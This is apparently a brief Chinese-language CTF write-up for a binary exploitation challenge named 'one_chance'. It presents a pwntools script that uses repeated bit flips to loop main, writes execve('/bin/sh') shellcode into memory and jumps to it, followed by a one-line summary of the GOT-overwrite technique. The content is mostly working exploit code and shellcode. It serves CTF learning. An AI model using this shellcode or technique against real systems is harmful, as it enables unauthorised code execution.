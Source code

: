 ## 考点

单字节构造rop+栈溢出

## 工具

python3

## 步骤

```python
#!/usr/bin/env python3

from pwn import *

context.log_level='debug'
#r = remote('10.212.27.23', 12138)
r = process("./one_chance")
# r.recvuntil("token: ")
gdb.attach(r,"b *40127C")
sleep(1)
def flip(addr, bit):
    r.recvuntil('slip?')
    r.sendline(hex(addr) + ' ' + str(bit))

target = 0x401286

flip(target + 1, 6)

shellcode_start = 0x4010C0
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
e = ELF('./one_chance')
for i in range(len(shellcode)):
    b = shellcode[i] ^ e.read(shellcode_start + i, 1)[0]
    for j in range(8):
        if (b >> j) & 1:
            flip(shellcode_start + i, j)

flip(target + 1, 6)

r.interactive()

```

## 总结

修改exit的got表1个bit，使程序流在main函数中产生循环，可以达到任意地址写的效果，然后写shellcode进行跳转。
